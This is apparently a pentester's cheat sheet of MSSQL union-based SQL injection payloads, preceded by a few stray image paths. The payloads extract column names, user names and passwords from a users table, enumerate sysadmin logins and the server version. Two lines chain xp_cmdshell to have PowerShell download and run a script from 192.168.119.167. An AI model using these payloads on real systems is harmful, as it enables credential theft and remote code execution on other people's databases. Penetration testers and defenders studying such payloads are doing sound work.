



mssql (Union Examples)
a' union select name,NULL from syscolumns where id=(select id from sysobjects where name='users');--

a' union select name,id from users;--

a' union select pass,id from users;--

a' union select name,NULL from master..syslogins; exec xp_cmdshell "powershell iex (new-object net.webclient).downloadstring('http://192.168.119.167/443.ps1')"--

a' union select @@version,NULL;--
a' union select user_name(),NULL;--
a' union select name,NULL from master..syslogins where sysadmin = '1';--
a' union SELECT name,NULL FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘users’);--
a' union select name,NULL from master..syslogins; exec xp_cmdshell "powershell iex (new-object net.webclient).downloadstring('http://192.168.119.167/443.ps1')"--
http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet